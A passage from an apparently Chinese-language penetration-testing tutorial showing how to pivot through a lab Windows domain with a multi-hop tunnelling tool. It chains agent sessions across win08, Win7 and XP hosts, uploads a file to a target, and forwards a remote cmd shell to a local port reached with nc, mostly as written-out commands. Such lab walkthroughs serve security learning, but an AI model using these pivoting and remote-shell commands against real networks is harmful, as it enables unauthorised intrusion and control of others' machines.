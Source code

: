 ②win 7 本地监听  

```
agent\_win32.exe -l 7777
```

③xp 本地监听

```
agent\_win32.exe -l 8888
```

④物理机连接 win08

```
admin\_Win32.exe -c 192.168.1.10 -p 6666
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0dlTELtnBzHD6l61gHBmAsvPn5FeMlYvnkxQawTzYnA02BHFiasdw5pQ/640?wx_fmt=png)

⑤通过域 win08 建立的隧道连接 win 7

```
#连接win08成功后查看连接的隧道会话
show
#进入08的会话
goto 1
#连接win 7
connect 192.168.106.129 7777
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0pY1R5opwPiaBoM3tjaTBiaf4VtlgHe36SxVZZGv90sNFMfc7XSq6EMxQ/640?wx_fmt=png)  

⑥连接 XP

```
#进去win7的会话
goto 2
#连接xp
connect 169.254.228.204 8888
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0bPX8atb73r23a4aBcVcURthk4kicsKJqy1GUBz9937NamVZI1QQRHjg/640?wx_fmt=png)

⑦成功建立隧道。开始执行命令:  
命令一：文件上传  

```
\# 传送文件。将本地c:\\unintall.log文件传送到目标服务器命名为1.txt
goto 5
upfile c:\\unintall.log 1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0qRqibJXe1C3DvkUXCwsNoOsHylyz7MAtJhPNeYZs5HicaqBbREUbCtLQ/640?wx_fmt=png)命令二：调用 shell  

```
#调用shell，将目标机器cmd shell转发到本地12345端口
shell 12345 
#nc连接,得到cmdshell
nc 127.0.0.1 12345
```
